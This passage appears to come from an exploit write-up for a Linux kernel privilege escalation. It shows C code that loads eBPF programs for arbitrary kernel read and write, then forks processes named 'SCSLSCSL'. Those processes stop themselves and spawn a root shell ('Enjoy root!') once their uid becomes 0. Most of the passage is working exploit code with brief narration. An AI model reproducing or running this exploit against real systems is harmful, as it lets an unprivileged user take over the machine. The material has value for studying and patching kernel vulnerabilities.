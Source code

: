 ```c

    arbitrary_write_prog = bpf_prog_load(BPF_PROG_TYPE_SOCKET_FILTER, arbitrary_write, sizeof(arbitrary_write) / sizeof(arbitrary_read[0]), "");
    if (arbitrary_write_prog < 0) {
        WARNF("Could not load program(arbitrary_write):\n %s", bpf_log_buf);
        goto abort;
    }

    ctx->arbitrary_read_prog = arbitrary_read_prog;
    ctx->arbitrary_write_prog = arbitrary_write_prog;
    return 0;

abort:
    if (arbitrary_read_prog > 0) close(arbitrary_read_prog);
    if (arbitrary_write_prog > 0) close(arbitrary_write_prog);
    return -1;
}
```

Now we can start escalating privileges. First, we'll spawn a bunch of
processes with a known name, set to `__ID__` (in this case, `"SCSLSCSL"`).
Then we'll have each of those processes stop itself just before attempting
to spawn a shell.

```c
int spawn_processes(context_t *ctx)
{
    for (int i = 0; i < PROC_NUM; i++)
    {
        pid_t child = fork();
        if (child == 0) {
            if (prctl(PR_SET_NAME, __ID__, 0, 0, 0) != 0) {
                WARNF("Could not set name");
            }
            uid_t old = getuid();
            kill(getpid(), SIGSTOP);
            uid_t uid = getuid();
            if (uid == 0 && old != uid) {
                OKF("Enjoy root!");
                system("/bin/sh");
            }
            exit(uid);
        }
        if (child < 0) {
            return child;
        }
        ctx->processes[i] = child;
    }

    return 0;
}
```

